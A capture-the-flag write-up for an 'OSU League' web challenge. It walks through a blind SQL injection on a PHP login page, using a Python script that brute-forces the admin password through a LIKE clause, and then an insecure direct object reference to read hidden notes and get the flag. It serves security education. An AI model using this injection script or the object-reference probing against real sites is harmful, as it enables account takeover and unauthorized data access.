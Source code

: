 ```yaml
---
title: "OSU League 2020/2021 - web 2 Writeup"
date: 2020-11-21
draft: false
description: ""
tags: ["ctf"]
---
```

For this challenge, we are given a website.  Opening the link takes us to this page:

{{< figure src="/img/webpage.png" >}}

Looks like we are presented with a login. We are also given the source code to this webpage, so maybe we can do something with that.

Looking through the source code, we see a comment mentioning a vulnerable piece of code:

```php
    // XXX: this is vuln to SQL injection!
    $query_str = "SELECT id, username, password FROM users WHERE username='$username';";
    echo '* <b>Query:</b> ' . htmlentities($query_str) . '<br>'
```

This piece of code is vulnerable to something known as a SQL injection.  With a specially crafted username, we can escape the `$username` and add on to the query with our own SQL code.  But what can we add onto the query in order login? 

The answer is the `LIKE` operator.  According to w3schools:
> The LIKE operator is used in a WHERE clause to search for a specified pattern in a column.
>
> There are two wildcards often used in conjunction with the LIKE operator:
>
> % - The percent sign represents zero, one, or multiple characters
> _ - The underscore represents a single character

So if we can make `username='$username'` evaluate to true, and then tack on a `and password like 'x%'`, and just iterate all possible characters for `x`, we can get the first character of the password for said username.  We can then repeat that process for every character until we get the full password.

After some trial and error, we can figure out that the username we want to steal from is `admin`.  and so the query we want to inject is `admin' and password like 'x%`

We can write a simple python script to automate this process:

```python
import requests
import string

url_val = "http://ctf-league.osusec.org:8080/login.php"
obj = {'password':'', 'username':''}
failed = "password is incorrect"
pwd = ''

while True:
    for i in string.printable:
        obj['username'] = "admin' and password like '" + pwd + i + "%"

        x = requests.post(url = url_val, data = obj, timeout=2.5)

        if(x.text.find(failed) > 0):
            pwd = pwd + i
            print(pwd)
            break

```

Running this script we get the password for admin:
```
$ python3 pwn.py
k
kl
kl6
kl62
kl62j
kl62jd
kl62jdi
kl62jdic
kl62jdicu
kl62jdicu3
kl62jdicu31
kl62jdicu31a
kl62jdicu31ad
kl62jdicu31ad%
```
The password is `kl62jdicu31ad`

After logging in, we are greeted with another page.  This one seems to be some sort of note maker:

{{< figure src="/img/notes.png" >}}

We are told to look into "Insecure direct object references", which is a type of access control vulnerability that happens in applications that use user supplied input directly.  

Opening a note, we can see how we could abuse that:

{{< figure src="/img/note_6.png" >}}

What if we directly modified the url to point us to a note that would otherwise be inaccesible?  Let's try setting it to `1`:

{{< figure src="/img/note_1.png" >}}

Next note contains the flag! Changing it to `2` and we get our flag:

{{< figure src="/img/flag.png" >}}

```
flag{r3m3mber_t0-g00gle_wh3n_f@cing_a_d1fficult-challenge!}
```
